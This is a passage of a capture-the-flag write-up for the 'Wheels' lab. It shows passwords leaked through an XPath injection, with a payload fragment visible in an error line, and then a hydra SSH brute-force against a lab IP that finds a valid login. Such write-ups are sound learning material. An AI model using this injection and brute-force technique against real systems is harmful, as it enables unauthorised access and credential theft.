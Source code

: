 #### Response

```html
<table align="center" height="40" background-color="#92f0ff">
<tr height="40" bgcolor="#17ffb7" align="center">
<td width="200"><b>Search users by services: </b></td>
</tr>
XML Error; No car')]/password | a[contains (a,' entity found
<tr height="40" bgcolor="#c8dbde" align="center">
<td>1</td>
<td width="200"><b>Iamrockinginmyroom1212</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>2</td>
<td width="200"><b>iamarabbitholeand7875</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>3</td>
<td width="200"><b>johnloveseverontr8932</b></td>
</tr>         
</table> 
```

### Users

```text
alice
bob
john
```

### Passwords

```text
Iamrockinginmyroom1212
iamarabbitholeand7875
johnloveseverontr8932
lokieismyfav!@#12
alreadydead$%^234
lasagama90809!@
```

## Initial Foothold

Use `hydra` to brute force the credentials for SSH.

```sh
naveenj@hackerspace:|01:04|~/proving_grounds/Wheels$ hydra -L users -P passwd ssh://192.168.196.202
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-08 01:04:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:3/p:5), ~1 try per task
[DATA] attacking ssh://192.168.196.202:22/
[22][ssh] host: 192.168.196.202   login: bob   password: Iamrockinginmyroom1212     #password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-08 01:04:59
```
